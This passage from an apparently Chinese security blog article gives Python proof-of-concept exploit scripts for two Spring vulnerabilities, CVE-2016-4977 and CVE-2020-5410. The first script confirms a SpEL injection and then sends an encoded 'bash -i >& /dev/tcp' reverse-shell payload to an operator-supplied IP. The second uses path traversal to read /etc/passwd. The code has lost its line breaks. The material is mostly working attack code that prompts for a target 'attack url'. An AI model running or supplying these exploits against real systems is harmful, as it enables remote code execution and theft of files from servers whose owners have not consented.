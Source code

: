 ### 0x04 CVE-2016-4977

#### 4.1 CVE-2016-4977 poc 编写

```
import requestsimport pyfigletimport base64import timeascii_banner = pyfiglet.figlet_format("CVE-2016-4977")print(ascii_banner)print("blog:https://www.cnblogs.com/yicunyiye/")print("-" * 50)url = input("attack url:")username = input("username:")password = input("password:")print("-" * 50)data = username+":"+passwordres = base64.b64encode(data.encode("utf-8")).decode("utf-8")Authorization = "Basic " + resheaders = {    "Authorization": Authorization    }payload = "oauth/authorize?response_type=${11*11}&client_id=acme&scope=openid&redirect_uri=http://test"target = url+payloadres = requests.get(target,headers=headers)result = res.textif('121' in result):    print("[+]%s is vulnerable" % url)    print("-" * 50)    reverse_ip = input('reverse ip：')    reverse_port = input('reverse port：')    bash_cmd = "bash -i >& /dev/tcp/" + reverse_ip + "/" + reverse_port + " 0>&1"    base64_cmd = base64.b64encode(bytes(bash_cmd, encoding='utf-8'))    string_bash = str(base64_cmd, 'utf-8')    reverse_cmd = "bash -c {echo," + string_bash + "}|{base64,-d}|{bash,-i}"    poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(reverse_cmd[0])    for ch in reverse_cmd[1:]:        poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch)    poc += ')}'    payload_getshell = "oauth/authorize?response_type="+poc+"&client_id=acme&scope=openid&redirect_uri=http://test"    # print(payload_getshell)    target_getshell = url + payload_getshell    shell = requests.get(target_getshell,headers=headers)    time.sleep(10)    print("getshell success!")else:    print("[-]%s is not vulnerable" % url)    print("-" * 50)
```

### 0x05 CVE-2020-5410

#### 5.1 CVE-2020-5410 poc 编写

```
import requestsimport pyfigletascii_banner = pyfiglet.figlet_format("CVE-2020-5410")print(ascii_banner)print("blog:https://www.cnblogs.com/yicunyiye/")print("-" * 50)url = input("attack url:")payload = "/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23/ddd"result = requests.get(url+payload)if ('root' in result.text):    print("[+]%s is vulnerable" % url)else:    print("[-]%s is not vulnerable" % url)
```

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)

**推荐阅读：**

本月报名可以参加抽奖送 Kali NetHunter 手机的优惠活动  

[![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvouibfico2qhUHkxIvX2u13s7zzLMaFdWAhC1MTl3xzjjPth3bLibSZtzN9KGsEWibPgYw55Lkm5VuKthibQ/640?wx_fmt=jpeg)](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247497897&idx=1&sn=5801b91d451b4c253eb3e2c5ff220673&chksm=ec1cad96db6b2480ce0be49a377819558c06b29603b812512b7cb52ca0c123bc444764f11502&scene=21#wechat_redirect)

**点赞，转发，在看**

原创投稿作者：11ccaab

未经授权，禁止转载

![](https://mmbiz.qpic.cn/mmbiz_gif/Uq8QfeuvouibQiaEkicNSzLStibHWxDSDpKeBqxDe6QMdr7M5ld84NFX0Q5HoNEedaMZeibI6cKE55jiaLMf9APuY0pA/640?wx_fmt=gif)